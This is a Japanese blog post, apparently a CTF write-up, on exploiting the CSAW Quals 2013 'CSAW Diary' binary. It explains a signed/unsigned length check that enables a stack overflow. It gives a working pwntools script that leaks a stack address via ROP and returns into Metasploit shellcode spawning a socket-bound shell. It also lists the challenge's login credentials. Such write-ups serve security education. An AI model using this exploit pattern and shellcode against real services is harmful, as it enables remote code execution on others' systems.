 ```yaml
---
layout: post
alias: "/blog/2016/01/22/csaw-quals-2013-csawdiary/"
date: 2016-01-22T04:57:41+09:00
tags: [ "ctf", "writeup", "csaw-ctf", "arithmetic-overflow", "buffer-overflow", "shellcode", "return-oriented-programming" ]
---
```


# CSAW Quals CTF 2013: CSAW Diary

かなりの時間はかかったが大半は自力で解いた。

## [CSAW Diary](https://github.com/ctfs/write-ups-2013/tree/master/csaw-quals-2013/exploitation/csawdiary-300)

>   nc 128.238.66.217 34266  
>   [fil_chal]()

与えられるバイナリは`34266`番portを開くサーバ。
接続するとloginを要求されるが、これはバイナリ中に平文で置いてあるのでそれを渡す。
すると`Entry Info: `と入力を促される。まず入力長となる整数を入力し、内容の文字列を入力する。
単純なbuffer overflowはない。

``` sh
$ nc localhost 34266
     *************    $$$$$$$$$        AAAAAAA  *****                   *****
    *   *******  *    $ $$   $$        A     A   *   *                 *   * 
    *  *       ***     $ $   $$       A  A A  A   *   *               *   *  
    *  *                $ $          A  A___A  A   *   *             *   *   
    *  *                 $ $        A           A   *   *    ****   *   *
    *  *                  $ $      A     AAA     A   *   *   *  *  *   *
    *  *       ***         $ $     A    A   A    A    *   ***   ***   *
    *  ********  *   $$$$$$   $    A    A   A    A     *             * 
     *************   $$$$$$$$$$    AAAAAA   AAAAAA      ************* 
                Dairy

UserName: csaw2013
Password: S1mplePWD
Welcome!
http://youtu.be/KmtzQCSh6xk

Entry Info: 30
foo
Til next time
```

nx bitはない。

``` sh
$ checksec --file fil_chal
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   fil_chal
```

脆弱性となるのは入力長の整数とその`signed`と`unsigned`を混同した比較である。
内部で`(unsigned)(n+1) <= 0x400`と比較されるので、ここに`-1`を渡すと`0 < 0x400`となりチェックを通過できる。このため`0xffffffff`文字まで書き込めることになり、stack上のbuffer overflowが可能となる。
あとは、stackのアドレスは再接続により変わらないため、簡単なropによりstackを読み出し、これから得られたアドレスを元にstack上のshellcodeにreturnすればよい。

本来のbufferの範囲にはasciiの範囲の文字しか入力できないようチェックがあるが、これは攻撃には影響しない。
アドレスの読み出しは不安定なのでsledと手での調整で適当にする。

ところでyoutubeへのurlは何だったのだろうか。

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import time

context.log_level = 'debug'

##
## leak esp
##

p = remote('localhost', 34266)
p.recvuntil('UserName: ')
p.sendline('csaw2013')
p.recvuntil('Password: ')
p.sendline('S1mplePWD')
p.recvuntil('Entry Info: ')
p.sendline('-1')

# buf + 0x420 - 8 ebx
# buf + 0x420 - 4 edi
# buf + 0x420     ebp
# buf + 0x420 + 4 ret
# buf + 0x420 + 4 + 0x1c ebp

call_send = 0x08048d04
pop0_ret = 0x0804868f # rp -r 0 -f fil_chal --unique

payload = ''
payload += 'A' * 0x420 # buf[0x400], it must be filled with ascii
payload += p32(pop0_ret) * 5
payload += p32(call_send) # send(4, ebp, -1, 0)
payload += p32(4) # socket fd
p.sendline(payload)
s = p.recvall()

# find a stack-like addr
for i in range(len(s)-4):
    if s[i+3] == '\xff' and '\0' not in s[i:i+4]:
        stk = u32(s[i:i+4])
        break
stk -= 0x100 # magic offset, hand tweaked
log.success('got stack addr: ' + hex(stk))

##
## attack
##

p = remote('localhost', 34266)
p.recvuntil('UserName: ')
p.sendline('csaw2013')
p.recvuntil('Password: ')
p.sendline('S1mplePWD')
p.recvuntil('Entry Info: ')
p.sendline('-1')

# metasploit
# >   $ msfconsole
# >   msf payload(shell_bind_tcp) > use payload/linux/x86/exec
# >   msf payload(exec) > generate -o CMD='/bin/sh 0<&4 1>&4'
shellcode = \
    "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x63\x89\xe7\x68\x2f\x73" + \
    "\x68\x00\x68\x2f\x62\x69\x6e\x89\xe3\x52\xe8\x12\x00\x00" + \
    "\x00\x2f\x62\x69\x6e\x2f\x73\x68\x20\x30\x3c\x26\x34\x20" + \
    "\x31\x3e\x26\x34\x00\x57\x53\x89\xe1\xcd\x80"

payload = ''
payload += 'A' * 0x420 # buf[0x400], it must be filled with ascii
payload += p32(stk)
payload += '\x90' * 0x100 # nop sled, if you make it longer, sigsegv will happen
payload += shellcode
p.sendline(payload)

time.sleep(0.1)
p.sendline('ls')
p.interactive()
```
